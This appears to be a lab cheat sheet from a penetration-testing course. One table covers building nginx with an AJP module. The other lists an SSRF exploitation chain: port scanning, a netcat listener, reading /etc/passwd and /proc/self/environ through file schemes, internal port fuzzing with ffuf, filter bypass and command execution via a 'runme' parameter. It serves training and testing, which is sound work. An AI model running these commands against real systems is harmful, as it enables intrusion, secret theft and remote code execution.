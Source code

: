 # Nginx Reverse Proxy & AJP

## Command	Description
| Command                                                                                        | Description                                                    |
|-----------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz`                                         | Downloading nginx                                              |
| `tar -xzvf nginx-1.21.3.tar.gz`                                                               | Extracting nginx tar file                                      |
| `git clone https://github.com/dvershinin/nginx_ajp_module.git`                                 | Cloning nginx_ajp source code                                  |
| `cd nginx-1.21.3`                                                                              | Navigating to nginx directory                                  |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server |
| `make`                                                                                         | GNU make utility to maintain groups of programs               |
| `sudo make install`                                                                            | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx`                                                                                   | Starting the nginx server                                      |

# SSRF Exploitation Example

## Command	Description
| Command                                                                                        | Description                                                    |
|-----------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`                                             | Scanning the ports of the external target                      |
| `curl -i -s -L http://<TARGET IP>`                                                            | Interacting with the target and following redirects            |
| `nc -lvnp 8080`                                                                               | Starting a netcat listener to test for SSRF                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                     | Testing for SSRF vulnerability                                 |
| `python3 -m http.server 9090`                                                                 | Starting the python web server                                  |
| `sudo pip3 install twisted`                                                                    | Installing the ftp server                                       |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                       | Starting the ftp server                                        |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`          | Retrieving a remote file through the target application (HTTP Schema) |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                    | Retrieving a local file through the target application (File Schema) |
| `for port in {1..65535};do echo $port >> ports.txt;done`                                       | Generating a wordlist of possible ports                         |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`         | Fuzzing for ports on the internal interface                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                 | Interacting with the internal interface on the discovered port  |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`          | Interacting with the internal application                       |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`  | Discovering web application listening in on localhost          |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"` | Modifying the URL to bypass the error message                 |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -` | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"` | Retrieving a local file through the target application        |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code execution on the remote host          |
| `sudo apt-get install jq`                                                                      | Installing jq                                                  |
